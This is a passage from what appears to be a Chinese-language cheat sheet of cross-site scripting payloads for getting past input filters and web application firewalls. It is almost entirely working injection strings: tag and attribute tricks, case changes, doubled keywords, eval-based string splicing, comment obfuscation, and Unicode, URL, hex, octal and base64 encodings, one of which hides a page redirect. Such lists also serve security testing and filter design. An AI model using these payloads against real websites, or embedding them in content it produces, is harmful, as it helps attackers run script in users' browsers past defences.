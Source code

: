 background属性

```php+HTML
<table background=javascript:alert(1)></table> //在Opera 10.5和IE6上有效
```

### 有过滤

过滤空格：用 / 、换行符等代替空格

```php+HTML
<img/src="x"/onerror=alert("xss");>
```

过滤关键字

```php+HTML
大小写绕过
<ImG sRc=x onerRor=alert("xss");>
双写关键字(有些waf可能会只替换一次且是替换为空，这种情况下我们可以考虑双写关键字绕过)
<imimgg srsrcc=x onerror=alert("xss");>
字符拼接(利用eval)
<img src="x" onerror="a=aler;b=t;c='(xss);';eval(a+b+c)">
字符拼接(利用top)
<script>top["al"+"ert"](``xss``);</script>(只有两个``这里是为了凸显出有`符号)
```

其它字符混淆：有的waf可能是用正则表达式去检测是否有xss攻击，如果我们能fuzz出正则的规则，则我们就可以使用其它字符去混淆我们注入的代码了。可利用注释、标签的优先级等

```php+HTML
<<script>alert("xss");//<</script>
<scri<!--test-->pt>alert("hello world!")</scri<!--test-->pt>
<title><img src=</title>><img src=x onerror="alert(``xss``);"> 因为title标签的优先级比img的高，所以会先闭合title，从而导致前面的img标签无效
<SCRIPT>var a="\\";alert("xss");//";</SCRIPT>
```

编码绕过

```php+HTML
Unicode编码绕过
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#34;&#120;&#115;&#115;&#34;&#41;&#59;">
<img src="x" onerror="eval('\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003b')">
url编码绕过
<img src="x" onerror="eval(unescape('%61%6c%65%72%74%28%22%78%73%73%22%29%3b'))">
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>
Ascii码绕过
<img src="x" onerror="eval(String.fromCharCode(97,108,101,114,116,40,34,120,115,115,34,41,59))">
Hex绕过
<img src=x onerror=eval('\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29')>
八进制绕过
<img src=x onerror=alert('\170\163\163')>
base64绕过
<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```
